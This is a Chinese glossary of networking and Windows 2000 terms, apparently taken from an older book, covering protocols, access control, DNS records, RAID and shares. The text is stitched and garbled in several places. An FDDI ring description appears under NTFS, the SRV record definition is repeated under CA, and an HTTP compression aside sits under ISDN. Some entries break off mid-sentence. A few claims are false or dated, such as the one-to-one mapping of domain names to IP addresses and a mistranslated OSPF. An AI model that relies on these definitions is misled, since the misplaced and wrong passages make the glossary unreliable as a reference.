Virtual Local Area Network，虚拟局域网。虚拟局域网最大的好处就是安全并且不受地域的限制。最常见的方法，就是将交换机的几个端口上所连接的几台主机划分成为一个局域网，这样就组成了一个虚拟局域网。他们的逻辑拓扑在网络上透明不可见，而且由于他们根据端口进行划分，因此这些主机可以属于不同的局域网设置在广域网上。

### 什么是 ATM？

Asynchronous Transfer Mode，异步传输模式。也是一种正在迅速发展的网络，但是由于其造价昂贵，使得其发展困难。因为在 ATM 网络中，所有的设备必须都是专用的，仅此一点就比其他的网络要昂贵得多。

关于 ATM 网络，记住一个常识：ATM 网络中，数据不叫做数据包，而是叫做信元，每个信元长度为 53 字节。

### 什么是 ACL？

Access Control List，访问控制列表。在 Win2K 中引入的，确切地说在 Windows NT 中已经有了。当磁盘使用 NTFS 格式的时候，我们就可以对任何一个文件或是文件夹进行权限的设置。设置完成后，每个文件或是文件夹将有一个叫做 ACL 的访问控制列表，里面会记录每个用户对该资源的访问权限。

### 什么是 EFS？

EFS，Encrypting File System，加密文件系统。

“加密文件系统”（EFS）提供一种核心文件加密技术，该技术用于在 NTFS 文件系统卷上存储已加密文件。一旦加密了文件或文件夹，你就可以像使用其他文件和文件夹一样使用它们。对加密该文件的用户，加密是透明的。这表明不必在使用前解密已加密的文件。你可以像平时那样打开和更改文件。但是，试图访问已加密文件或文件夹的入侵者将被禁止这些操作。如果入侵者试图打开、复制、移动或重新命名已加密文件或文件夹，将收到拒绝访问的消息。

### 什么是 ACE？

Access Control Entry，访问控制元素。其实，用户对文件或是文件夹权限的最关键就在于 ACE，ACE 组成了 ACL，并通过 ACL 来比较、查看每个用户的权限等等。

### 什么是 DACL？

DACL，Discretionary Access Control List，任意访问控制表。这是表示部分对象的安全描述的列表，主要是针对用户和组的允许和拒绝权限。

### 什么是 SACL？

SACL，System Access Control List，系统访问控制表。也是用来表示部分对象安全描述的列表，它主要是针对用户和组的哪一个事件将被审核。

### 什么是 Domain？

域是在 Windows NT 开始引入的概念。每个域都是一个安全界限，这意味着安全策略和设置（例如系统管理权力、安全策略和访问控制表）不能跨越不同的域。特定域的系统管理员有权设置仅属于该域的策略。

### 什么是 DC？

DC，Domain Controller，域控制器。在每个域中，都会有一台 DC，该主机负责该域中的事务处理。

域控制器实际上是运行 Active Directory 的 Windows 2000 服务器。在域控制器上，Active Directory 存储了所有域范围内的帐户和策略信息。

一个域中可以包括一个或多个配置为域控制器的计算机。

由于域控制器为域存储了所有的用户帐户信息，因此每个域控制器都可以处在物理位置非常安全的环境中。同样，只有管理员才允许交互式地登录到域控制器的控制台中。

### 什么是 PDC？

PDC，Primary Domain Controller，主域控制器。

### 什么是 BDC？

BDC，Backup Domain Controller，备份域控制器。

### 什么是 AD？

AD，Active Directory，活动目录服务。Windows 2000 的 Active Directory 目录服务对有关网络上所有对象的信息进行分类，包括人、计算机以及打印机，并且通过网络发布信息。安全性是通过登录身份验证和访问控制与 Active Directory 集成在一起的。有了 Active Directory，只需要登录一次就可以很容易地找到并且使用网络上任何地方的资源。例如，可以在 Active Directory 中搜索进行彩色打印并且位于计算机附近的打印机，由特定的人所管理的一组用户，或已经指派唯一关键字的共享文件夹。

如果系统为 Win2K Server 以上的版本，可以在“开始—运行”中输入 `dcpromo` 命令来安装 Active Directory。

### 什么是 LDAP？

LDAP，Lightweight Directory Access Protocol，轻量级目录访问协议。LDAP 是设计用于在 TCP/IP 网络上使用的通信协议。LDAP 定义目录客户端如何访问目录服务器，以及客户端如何进行目录操作并共享目录数据。LDAP 标准由 Internet 工程任务组（IETF）的工作组制定。Active Directory 实现了 LDAP 属性草案规范以及 LDAP 第二版和第三版的 IETF 标准。

### 什么是 KDC？

KDC，Key Distribution Center，密钥分发中心。

如果域控制器上运行了 Kerberos v5 的话，则可成为一台 KDC。它主要是用来颁发票据授予票据（TGT）和服务票据，以获得网络的验证和访问权限。

**注：**KDC 涉及到了 Kerberos 加密的知识，有兴趣的朋友可以看一下 Win2K 域管理的相关资料。

### 什么是 Kerberos v5？

一种用于用户或是系统身份的身份验证机制。一旦使用了 Kerberos v5，那么在网络上传送的数据也将经过加密，而并非明文。

### 什么是 CHAP？

CHAP，Challenge Handshake Authentication Protocol，质询握手验证协议。质询握手身份验证协议（CHAP）通过使用 Message Digest 5（MD5）（一种工业标准的散列方案）来协商一种加密身份验证的安全形式。散列方案是一种转换数据（例如密码）的方法，它生成的结果是唯一的，且不能被改回到原始形式。CHAP 在响应时使用质询、响应机制和单向 MD5 散列。用这种方法，可以向服务器证明你知道密码，但不必实际将密码发送到网络上。通过支持 CHAP 和 MD5，网络和拨号连接能够安全地连接到几乎所有其他的 PPP 服务器。运行 Windows 2000 的远程访问服务器支持 CHAP，以便对非 Microsoft 远程访问客户进行身份验证。

### 什么是 CA？

CA，Certification Authority，证书……颁发机构。证书颁发机构（CA）是受委托向个人、计算机或单位颁发证书的机构。CA 接受证书申请，根据 CA 的策略验证申请者的信息，然后使用其私钥将其数字签名应用于证书。然后 CA 将证书颁发给证书的受领人，用作公钥基础结构（PKI）内的安全凭证。CA 还负责吊销证书并发布证书吊销列表（CRL）。

服务定位器（SRV）资源记录允许多个服务器提供相似的基于 TCP/IP 的服务，并使用 DNS 查询操作来定位该服务。

## 什么是 DNS？

Domain Name System，域名解析系统。人们习惯记忆便于理解的域名，但 WWW 上的每一台主机间相互只认 IP 地址，而域名与 IP 地址之间是一一对应的，把它们之间进行转换的工作称为域名解析。

## 什么是 A 资源记录？

用来将 DNS 的域名映射到网络上的主机 IP 的资源记录。

## 什么是 PTR 记录？

PTR（pointer）resource record，PTR（指针）资源记录。指针（PTR）用于支持基于在 in-addr.arpa 域中创建和确立的区域的反向搜索过程。这些记录用于通过 IP 地址定位计算机，并为该计算机将信息解析为 DNS 域名。

## 什么是 SRV 记录？

SRV（service）resource record，SRV（服务）资源记录。服务定位器（SRV）资源记录允许多个服务器提供相似的基于 TCP/IP 的服务，并使用 DNS 查询操作来定位该服务。

## 什么是 BIND？

BIND，Berkeley Internet Name Domain，Berkeley Internet 名称域。

## 什么是 CGI？

Common Gateway Interface，公共网关接口。它是运行于网络服务器上的一类程序，用于一个可以产生相同结果或随用户输入而变化结果的程序。CGI 程序通常用于完成 Web 网页中表单数据的处理、数据库查询和实现与传统应用系统的集成等工作。

## 什么是 NAT？

网络地址转换（NAT）通过将专用内部地址转换为公共外部地址，对外隐藏了内部管理的 IP 地址。这样，通过在内部使用非注册的 IP 地址，并将它们转换为一小部分外部注册的 IP 地址，从而减少了 IP 地址注册的费用。同时，这也隐藏了内部网络结构，从而降低了内部网络受到攻击的风险。

## 什么是 NTFS？

一种磁盘格式（图5-1）。在 Windows NT 以上版本的操作系统才可以支持的一种格式。使用这种磁盘格式可以实现用户权限的分配，使得系统更加安全。但是，由于使用过程中要涉及到权限的分配等问题，其速度要较 FAT32 慢一些。



图5-1

双环结构的网络，除了速度快以外，由于其双环结构，所以其容错性也强。正常情况下，只使用其中一个环传输数据，另外一个环做备用，当一条环坏掉后，另外一环自动启用。

- **注意：** 两条环中的数据传输方法是相反的。

## 什么是 CDFS？

CDFS，Compact Disc File System，光盘文件系统。想看的话，只要在光驱里放上一张光盘，然后查看一下属性，就可以看到 CDFS 的字样了（图5-2）。

## 什么是 X.25？

X.25 是一种数据包交换技术，它可以通过包交换网络可靠地传输数据。可以通过直接连接，或通过拨入到数据包组装程序、分解程序的异步连接，来访问 X.25 网络。Windows 2000 远程访问服务器只支持通过 X.25 智能卡直接连接到 X.25 网络上。



图5-2

## 什么是 UTP？

非屏蔽双绞线，双绞线的一种。这种双绞线没有屏蔽层，不能够很好地屏蔽掉噪音。因此，使用这种双绞线的话会对数据的质量产生影响。

## 什么是 CSMA/CD？

CSMA/CD，载波侦听多路访问/冲突检测。用来检测线路中数据冲突并避免冲突的一种机制。

## 什么是 STP？

屏蔽双绞线。相对非屏蔽双绞线的一种线缆，有铜制的屏蔽层，可以有效地屏蔽噪音的影响。

## 什么是 PVC？

PVC，permanent virtual circuit，永久虚电路。分配给预先配置的静态路由的虚拟电路。另外，也可以使用在某些专用 ATM 网络中。

## 什么是 FDDI？

光纤分布式数据接口。FDDI 是具有……

## 什么是 PSTN？

PSTN，Public Switched Telephone Network，公共电话交换网络。这是标准的模拟电话线路，任何一个国家任何一个地方都可以使用的。

## 什么是 ISDN？

ISDN，Integrated Services Digital Network，综合业务数字网。

综合业务数字网络提供的通信速度比模拟电话线更快。模拟电话线的通信速度可达每秒 56（Kbps），而 ISDN 的通信速度可达每秒 64 或 128（Kbps）。需要这种速度的公司通常拥有很大的通信工作量，或需要远程执行大量的管理任务。

> 现在我们使用的 HTTP 协议都是支持压缩的，HTTP 压缩节约了带宽，并可以在 Web 服务器和具有压缩功能的客户端之间更快地传输网页。Internet Explorer 4 和 Internet Explorer 5 都支持这种压缩方式。


## 什么是 ADSL？

非对称数字用户线路，DSL 技术中的一种。

## 什么是 VPN？

virtual private network，VPN，虚拟专用网络。

虚拟专用网络（VPN）是专用网络的延伸，它包含了类似 Internet 的共享或公共网络链接。通过 VPN 可以以模拟点对点专用链接的方式，通过共享或公共网络在两台计算机之间发送数据。虚拟专用联网是创建和配置虚拟专用网络的行为。

## 什么是 MAC？

Media Access Control，媒体访问控制。

## 什么是 HTTP？

Hypertext Transfer Protocol，HTTP，超文本传输协议。用来在 Web 服务器和浏览 Web 的客户端之间传输 Web 页面的一种协议。

## 什么是 FTP？

FTP，File Transfer Protocol，文件传输协议。最早是为了实现文件的传输而设计的，但是，现在越来越多的新技术，导致 FTP 好像已经不是唯一的传输文件的方法了。不过，由于其优越性，短时间内它是不会被淘汰的。

## 什么是 NNTP？

NNTP，Network News Transfer Protocol，网络新闻传输协议。

## 什么是 3389 终端？

Terminal Service，终端服务。Windows NT 中最先开始使用的一种终端，在 Win2K 的 Professional 版本中不可以安装，在 Server 版或更高版本中有这个服务可以安装。通过终端服务的客户端连接主机，可以像操作本机一样操作远程主机，非常方便，在 Windows XP 中叫做“远程桌面”。

## 什么是 TCP/IP？

TCP/IP，传输控制协议/网际协议。

## Win2K 部分

TCP/IP 是一个协议栈，里面包含了很多的通信协议，像我们常见的 IP、TCP、IGMP、ICMP、ARP、UDP 等等协议。

## 什么是 IPX/SPX？

IPX/SPX，网际数据包交换、顺序数据包交换。网际数据包交换（IPX）和顺序数据包交换（SPX）是用于 Novell NetWare 网络的传输协议。它们共同对应于用于 TCP/IP 协议组的网际协议（IP）和传输控制协议（TCP），也是开放式协议。

## 什么是 SMTP？

Simple Mail Transfer Protocol，简单邮件传输协议。它是一组用于由源地址到目的地址传送邮件的规则，由它来控制信件的中转方式。SMTP 协议属于 TCP/IP 协议族，它帮助每台计算机在发送或中转信件时找到下一个目的地。通过 SMTP 协议所指定的服务器，我们就可以把 E-mail 寄到收信人的服务器上了。SMTP 服务器则是遵循 SMTP 协议的发送邮件服务器，用来发送或中转你发出的电子邮件。

## 什么是 ESMTP？

Extended Simple Mail Transfer Protocol，扩展 SMTP，是针对标准 SMTP 协议进行的扩展。它与 SMTP 服务的区别仅仅是：使用 SMTP 发信不需要验证用户账户，而用 ESMTP 发信时，服务器会要求用户提供用户名和密码以便验证身份。验证之后的邮件发送过程与 SMTP 方式没有两样。

## 什么是 POP3？

Post Office Protocol 3，邮局协议的第 3 个版本。它规定怎样将个人计算机连接到 Internet 的邮件服务器和下载电子邮件的电子协议。它是因特网电子邮件的第一个离线协议标准，POP3 允许用户从服务器上把邮件存储到本地主机上，同时删除保存在邮件服务器上的邮件，而 POP3 服务器则是遵循 POP3 协议的接收邮件服务器，用来接收电子邮件。

## 什么是 TCP？

传输控制协议（TCP）是所需的 TCP/IP 标准，在 RFC 793“传输控制协议（TCP）”中定义，提供可靠的、面向连接的数据报传递服务。

## 什么是 IP 协议？

IP 是所需的 TCP/IP 标准，在 RFC 791“网际协议（IP）”中定义。IP 是无连接的、不可靠的数据报协议，主要负责在主机之间寻址和选择数据包的路由。

## 什么是 AppleTalk？

这是微软为了兼容 Apple 机的协议而发布的协议，为了实现和使用 Macintosh 系统的 Apple 机通信和兼容，是可路由协议组。

## 什么是 NWLink？

Novell 网际包交换、顺序包交换（IPX、SPX）和 NetBIOS 协议的实现。

Windows 2000 客户可使用 NWLink 访问运行在 Novell NetWare 服务器上的客户及服务器应用程序。NetWare 客户端可使用 NWLink 访问运行在 Windows 2000 服务器上的客户及服务器应用程序。通过 NWLink，运行 Windows 2000 的计算机可与其他网络设备通信，例如使用 IPX、SPX 协议的打印机。也可在仅使用 Windows 2000 及其他 Microsoft 客户软件的小型网络上使用 NWLink。

## 什么是 IrDA？

红外线数据协议。Windows 2000 支持 IrDA 协议，该协议允许数据在红外连接上传送。这提供一个基础结构，此结构允许其他设备和程序通过 IrDA 接口与 Windows 2000 通讯。Windows 2000 安装了“无线链接”程序，它与运行 Windows 2000 或 Windows 98 操作系统的计算机互相传送文件。

Windows 2000 即插即用结构可以为内嵌 IrDA 硬件的计算机自动检测并安装红外组件。对于没有内置 IrDA 硬件的计算机，用户可以将串行 IrDA 收发器连接到 COM 端口，并使用 Windows 2000 中的“添加/删除硬件”向导安装设备。

## 什么是 SLIP？

串行线路网际协议。串行线路网际协议（SLIP）作为较旧的远程访问标准，主要是 UNIX 远程访问服务器使用。运行 Windows 2000 的远程访问客户机支持 SLIP，并可以连接到任何使用 SLIP 标准的远程访问服务器上。运行 Windows 2000 的远程访问服务器不支持 SLIP 客户机。

## 什么是 PPP？

点对点协议。点对点协议（PPP）是一组允许来自不同供应商的远程访问软件交互操作的标准协议。启用 PPP 的连接可以通过任何工业标准 PPP 服务器拨入远程网络。PPP 也允许运行 Windows 2000 Server 的计算机通过远程访问，接收来自其他供应商且与 PPP 标准兼容的远程访问软件的呼叫，并向这类软件提供网络访问。

PPP 标准还允许使用在例如 SLIP 这样的旧标准中未提供的高级特性。PPP 支持多种身份验证方法，以及数据压缩和加密。

## 什么是 PPTP？

PPTP，Point-to-Point Tunneling Protocol，点对点隧道协议。

点对点隧道协议（PPTP）是一种支持多协议虚拟专用网络（VPN）的联网技术，它可以使远程用户通过 Internet 安全地访问企业网。与专门用于支持以拨号网络连接到 Internet 的点对点协议（PPP）不同，PPTP 不依靠拨号连接。通过其他远程访问技术，例如通过 DSL 所提供的 Internet 访问，它可以用于提供安全、隧道式端对端的 Internet 连接。

## 什么是 L2TP？

L2TP，Layer 2 Tunneling Protocol，第二层隧道协议。

第二层隧道协议（L2TP）是一种支持多协议虚拟专用网络（VPN）的联网技术，它允许远程用户通过 Internet 安全地访问企业网络。类似点对点隧道协议（PPTP），通过其他远程访问技术，例如通过 DSL 所提供的 Internet 访问，它可以被用于为隧道式端对端 Internet 连接提供安全保护。与 PPTP 不同，L2TP 不依赖特定厂商的加密技术即可达到完全安全和成功的实施。由于此原因，它可能成为 Internet 上保护虚拟专用网安全的标准。

## 什么是 NetBEUI？

NetBEUI，NetBIOS Enhanced User Interface，NetBIOS 增强用户接口。

NetBIOS 增强用户接口（NetBEUI）适用于小型工作组或 LAN。可以在运行 Windows 2000 的所有远程访问服务器和大多数 Windows 联网客户上，安装 NetBIOS 网关和 NetBEUI 客户端协议。以前的 Windows NT 远程访问客户、LAN Manager 远程访问客户、MS-DOS 远程访问客户以及 Windows for Workgroups 远程访问客户都可以使用 NetBEUI。NetBEUI 是不可路由的，该协议所需的唯一配置是计算机名称。

## 什么是 IGMP 协议？

Internet Group Management Protocol，Internet 组管理协议。是一个很有发展潜力的网络传输协议。现在已经越来越被人们所重视，利用 IGMP 可以做很多事，例如管理视频会议等等。使用 IGMP 的好处在于节省带宽，方便管理。具体关于 IGMP 的内容就不细讲了。

## 什么是 ICMP 协议？

Internet Control Message Protocol，Internet 控制信息协议。没什么太多好说的，像我们常用的 ping 命令就是使用了 ICMP 协议。

## 什么是 ARP？

Address Resolution Protocol，ARP，地址解析协议。该协议提供了从 IP 地址到 MAC 地址（也就是物理地址，通常是指网卡的地址）的解析。

## 什么是 SNMP 协议？

Simple Network Management Protocol，简单网络管理协议。也是一个越来越被人们所重视的协议，越来越多的人开始使用这个协议来对网络上的设备进行管理。例如，使用 SNMP 来管理路由器。但是有一点要注意：SNMP 是一个应用级协议，而不是一个传输协议。说得清楚一点，当使用 SNMP 来管理网上的某个设备的时候，使用的是 SNMP 软件进行管理，而传输协议并不是 SNMP，而是 UDP（用户数据报协议）。

## 什么是 DHCP？

DHCP，Dynamic Host Configuration Protocol，动态主机配置协议。DHCP 是用来进行安全、可靠的动态分配 IP 地址的服务。装有 DHCP 服务的 DHCP 服务器将可以动态地分配 IP 地址，这样可以避免手动配置 IP 时带来的冲突可能。

## 什么是 BOOTP？

BOOTP，Bootstrap Protocol，BOOTP 协议。

自举协议（BOOTP）是为 DHCP 之前的主机配置而建立的 TCP/IP 标准。

BOOTP 最初被设计为在旧系统上启用无盘工作站的引导配置。此协议方案是必要的，因为这种类型的客户机存储可配置信息的能力有限，在它们各自的引导过程中需要使用这些配置信息以启动并加入到网络中。

- **注意：** BOOTP 客户机只要求 IP 地址信息。

## 什么是 WINS？

WINS，Windows Internet Name Service，Windows Internet 命名服务。

“Windows Internet 名称服务（WINS）”提供了动态复制数据库服务，此服务可以将 NetBIOS 名称注册并解析为网络上使用的 IP 地址。Windows 2000 Server 提供了 WINS，它启用服务器计算机来充当 NetBIOS 名称服务器，并注册和解析网络上启用 WINS 客户的名称，就像 TCP/IP 上的 NetBIOS 标准中描述的一样。

## 什么是 RAID？

RAID，Redundant Array of Independent Disks，独立磁盘冗余阵列。

一种用于容错的磁盘系统方法，常见有六种，Win2K 则提供了其中三种：RAID-0、RAID-1、RAID-5。

## 什么是 RAID-5？

一种比较流行的磁盘阵列，完成这种磁盘阵列的话，至少需要三块物理硬盘。

使用 RAID-5 最大的优点就是容错。如果使用三块磁盘完成 RAID-5 的话，在其中一块硬盘上的数据出错或数据丢失的情况下，可以通过一定的算法将数据恢复。

但是，也有缺点，就是磁盘空间利用率低。如果有三块磁盘来制作 RAID-5 阵列的话，那么将有大小相当于一块磁盘大小的空间不能被存储数据，它的利用率是 (n-1)/n，在这里，n 是磁盘的数目。

## 什么是 RPC？

RPC，remote procedure call，远程过程调用。是一个服务，它允许分布式应用程序使用网络上计算机可用的服务。

## 什么是 RFC？

RFC，Request for Comments，注释请求。由 Internet 工程任务组（IETF）指定的一系列文档，里面详细地描述了 TCP/IP 协议栈中各个细节的详细信息。

## 什么是 DirectX？

Windows 2000 支持 DirectX 7.0，它能增强计算机的多媒体功能。DirectX 包括加速视频卡和声卡驱动程序，为不同类型的多媒体提供更好的播放效果，如全彩图形、图像、三维动画、音乐以及剧场声音。DirectX 使用这些高级功能而不要求识别计算机中的硬件组件，并确保大多数软件可以在大部分硬件系统上运行。

### 什么是 ASCII？

ASCII（American Standard Code for Information Interchange），美国信息交换标准码，是一种标准的单字节字符编码方案。标准的 ASCII 码用 7 位二进制数字表示所有的大写字母、小写字母、数字以及特殊符号。

### 什么是 PID？

PID（Process Identifier），进程标识符。每个进程运行的时候都会被分配一个 PID，用它来标识进程。在“任务管理器”的进程选项卡中可以查看每个进程对应的 PID 值。

### 什么是半双工、全双工？

一条信道，在同一时刻，如果信道两端的主机可以同时传送数据，那么这就叫做全双工；如果在同一时刻，信道两端的主机只有一台能够通信，另外一台想要通信的话，必须等待第一台主机的通信停止、信道闲置才可以，那么这样的通信就叫做半双工。

### 什么是 SID？

SID（Security Identifier），安全标识符。用来标识用户、组和计算机帐号的唯一号码。在第一次创建帐号的时候，即会由系统分配一个 SID 给该帐号。Win2k 中，无论是进程的引用还是对用户的识别等，都是通过用户的 SID，而不是通过用户帐号的用户名。

### 什么是 IIS？

IIS（Internet Information Services），Internet 信息服务。Win2k 中自带的服务，支持 FTP、WEB、NNTP、SMTP 服务，可以通过控制面板中的“添加/删除程序”里的“添加/删除 Windows 组件”来添加或删除 IIS 服务。

### 什么是审核？

安全审核是 Windows 2000 的一项功能，负责监视各种与安全性有关的事件。监视系统事件对于检测入侵者以及危及系统数据安全性的尝试是非常必要的。失败的登录尝试就是一个应该被审核的事件。

另外，Windows 2000 的审核功能会生成一个审核指针来帮助你追踪发生在系统上的所有安全管理事件。例如，如果系统管理员将审核策略更改为不再审核失败的登录尝试，那么审核指针将显示这一事件。

### 什么是命名管道？

Named Pipe，命名管道。Win2k 中最常见的 ipc$ 便是一个共享命名管道。

命名管道的作用是这样的：它可以使一个进程将自己的信息传送给另外一个进程，而且成为另外一个进程输入的内存部分；而且，这两个进程可以是在同一台计算机上，也可以是在两台远程计算机上。

### 什么是 MMC？

MMC（Microsoft Management Console），控制台。

Microsoft Management Console（MMC）是用来创建、保存、打开管理工具集合的工具。控制台包括管理 Windows 2000 系统的硬件、软件和网络组件所需的诸如管理单元、扩展管理单元、监视器控件、任务、向导以及文档等项目。可以向现有的 MMC 控制台添加项目，或者创建新的控制台并将其配置为管理特定的系统组件。

打开 MMC 的方法：开始 -> 运行，输入 `mmc`，回车即可。

### 什么是 IPv6？

IPv6 就是 IP Version 6，也就是 Internet 协议版本 6。现在我们使用的是版本 4（IPv4）。

IPv6 是现在计划用来代替 IPv4 的。IPv6 不但可以给我们带来更多的 IP 地址，而且其安全性是 IPv4 远不能及的。但是，由于现在的一些设备还不支持 IPv6，因此，从 IPv4 到 IPv6 还是一个比较漫长的过程。

### 什么是虚拟服务器？

虚拟服务器是这样的：通过 Web 服务器（一台高性能的机器），在一块网卡上绑定多个 IP 地址，而不同的 IP 地址绑定于同一台 WWW 服务器上的不同主目录。当用户访问不同的 IP 地址时，其对应的主页就会被分发出去，一台 WWW 服务器就好像许多 WWW 服务器一样。这样可以节约硬件资源，降低 WWW 服务器维护的成本，便于网页的集中管理。缺点是对 WWW 服务器的硬件要求较高，在网络访问高峰期系统性能下降较大，还有安全隐患。在 Windows NT 和 Linux 上都可以建立虚拟服务器。

### 什么是 ISP？

ISP 即 Internet 服务提供商（Internet Service Provider）。它提供互联网的拨入帐号，是网络最终用户进入 Internet 的入口和桥梁。我国目前最大的 ISP 是电信 163。

### 什么是 ICP？

ICP 即 Internet 内容提供商（Internet Content Provider）。它主要在互联网上提供内容服务让用户查阅和检索，满足网民对信息的需要。

### 什么是 Intranet？

Intranet 是在一个协同作业的企业或者组织内部，使用 Internet 技术实现应用需求的网络应用系统。它可以建立在企业内部原有的硬件、软件和服务器基础上，实现 Internet 上的几乎所有应用，如 Web 服务、FTP 服务、DNS 服务、E-mail 系统等。另外，以 Intranet 为平台的信息管理系统以其特有的优势，可获得高效的开发和企业级应用，逐渐取代传统的 MIS 系统，成为企业管理信息系统的首选。

### 什么是隐藏共享？

隐藏共享就是将共享资源名后加上一个美元符号（`$`）。例如，共享 C 盘的话，我们可以在共享的时候不写 C，而是写 C$，这样一来就做到了隐藏共享。隐藏共享的好处就在于对方通过网上邻居访问的时候，无法看到隐藏共享的资源。如果想要访问隐藏共享，必须在“开始—运行”或 IE 等窗口的地址栏里写上：`\\ip\share$`，这样就可以访问指定 IP 地址的隐藏共享了。

### 什么是 UNC 路径？

类似 `\\ip\share_name` 这样的路径来访问或查看对方主机共享资源的格式，就叫做 UNC 路径。在无法使用网上邻居的广域网上经常用到这个格式。

### 什么是 XML？

XML（Extensible Markup Language），可扩展标识语言。

### 什么是脚本宿主？

Windows 脚本宿主允许脚本直接在 Windows 2000 中运行，方法是单击 Windows 桌面上的脚本文件，或者在命令提示符下键入脚本文件名称。就像 Microsoft Internet Explorer 一样，Windows 脚本宿主充当 ActiveX 的脚本引擎控制器。但是，与 Internet Explorer 不同，Windows 脚本宿主需要很小内存，对交互和非交互脚本（如登录脚本和管理脚本）都非常理想。

Windows 脚本宿主支持用 Visual Basic Scripting Edition（VBScript）或 JScript 编写的脚本。当从 Windows 桌面或者命令提示符下启动脚本时，脚本宿主将指定脚本文件内容读取并传送到注册的脚本引擎。脚本引擎使用文件扩展名（`.vbs` for VBScript；`.js` for JScript）来识别脚本，而不是使用 SCRIPT 标记（用于 HTML）。

### 什么是 API？

API（Application Programming Interface），应用编程接口。

### 什么是 ODBC？

ODBC，数据源。

ODBC 驱动程序是一些 DLL，提供了 ODBC 和数据库之间的接口。数据源包含了数据库位置和数据库类型等信息，实际上是一种数据连接的抽象。应用程序要访问一个数据库，首先必须用 ODBC 管理器注册一个数据源，管理器根据数据源提供的数据库位置、数据库类型及 ODBC 驱动程序等信息，建立起 ODBC 与具体数据库的联系。这样，只要应用程序将数据源名提供给 ODBC，ODBC 就能建立起与相应数据库的连接。

### 什么是 OSPF？

OSPF（Open Shortest Path First），最先打开最短路径。

“开放式最短路径优先（OSPF）”设计用于在大型或特大型网际网络中交换路由选择信息。OSPF 的最大优点是高效率；OSPF 要求很小的网络开销，即使在非常大的网际网络中。OSPF 的最大缺点是它的复杂性；OSPF 需要正确的计划并且更难于配置和管理。OSPF 使用“最短路径优先（SPF）”算法来计算路由选择表中的路由。SPF 算法计算路由器和所有网际网络之间的最短路径（最低成本）。

### 什么是故障恢复控制台？

Recovery Console，故障恢复控制台。

